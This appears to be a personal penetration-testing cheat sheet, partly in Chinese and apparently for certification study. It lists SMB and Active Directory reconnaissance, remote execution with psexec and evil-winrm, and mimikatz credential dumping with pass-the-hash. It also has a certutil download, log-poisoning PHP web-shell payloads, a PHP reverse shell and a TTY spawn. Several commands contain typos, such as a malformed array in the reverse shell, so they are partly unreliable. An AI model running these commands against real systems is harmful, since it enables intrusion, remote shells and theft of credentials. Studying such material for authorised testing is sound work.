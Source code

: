 Markdown語法：https://hackmd.io/@eMP9zQQ0Qt6I8Uqp2Vqy6w/SyiOheL5N/%2FBVqowKshRH246Q7UDyodFA  
https://blog.stevenyu.tw/2022/06/10/%E6%B7%B1%E5%BA%A6%E8%A7%A3%E6%9E%90-cpent-%E8%80%83%E8%A9%A6%E5%BF%83%E5%BE%97%E3%80%81%E4%BB%A5%E5%8F%8A%E8%88%87-oscp-%E7%9A%84%E6%AF%94%E8%BC%83/  
## NMAP Reacon ##  
nmap -sS -n -p 445 --script smb-protocls 192.168.1.1 

## AD Reacon ##  

# Windows #  
nbtstat -A (IP)  
adreacon  
# Linux #  
enum4linux-ng -A  

## Reacon SMB ##  
net view \\192.168.1.1  
dir \\192.168.1.1  
smbclient -L //IP -U DC_name\\acount  
nmap -n -sS -p137,138,139,448 --script smb-os-discovery 192.168.1.1  
nmap -sS -n -p 445 --script smb-protocls 192.168.1.1  

## Use SMB ##  
smbclient -L //IP -U DC_name\\acount  
smbclient //IP/<Folder> -U DC_name\\account  
smbclient //192.168.1.1/C$ -U DC_name\\account  

## Download File ##  
certutil -urlcache -split -f <URL> <輸出檔名>  

## Windows Remote #  
# WinRM #  
evil-winrm  
# RDP #  
xfreerdp3 
# psexec #  
impacket-psexec  
psexec \\192.168.1.1: cmd.exe  
# smbexec #  
impacket-smbexec  

# mimikatz #  
privilege::debug  
tocke::elevate  
lsadump::sam  
sekurlsa::pth /user:administrator /domain:. /ntlm:<ntlm hash>  

## GDB #  
# Install PEDA Plgu-in ##  
# Commands #  
gdb XXXX(binary name)  
b main  
run  
info registers  
disassemble main  
p system
search /bin/sh  

## Privilege Escalation #  
# Overlay #  
https://github.com/briskets/CVE-2021-3493  


## Firmware Analyze  
# binwalk  
binwalk -e --signature --term (Filename)  
# binwalk3  
binwalk3  
# firmware analysis toolkit(fat)  
sudo ./fat3.py (filename)  
# AttifyOS Emulation  

## Hash Cracker  
# John  
john --wordlist=/usr/share/wordlists/rockyou.txt <Filename>  
# Hashcat  

## Web Recon  
# Nikto  
# wpscan  

## Log Poison  
# SSH Log (/var/log/auth.log)  
ssh '<?php system($_GET["cmd"]); ?>'@192.168.1.1
ssh -l '<?php system($_GET["cmd"]); ?>'@192.168.1.1
# Apache Log (/var/log/apache2/access.log)  
User-Agent: <?php system($_GET['cmd']); ?>

## Reverse Shell
# php
``` php -r '$sock=fsockopen("192.168.1.1",4444);$proc=proc_open("/bin/sh -i", array(0>=$sock, 1=>$sock, 2=>sock),$pipes);' ```

## TTY ##  
``` python3 -c 'import pty; pty.spawn("/bin/sh")' ```  
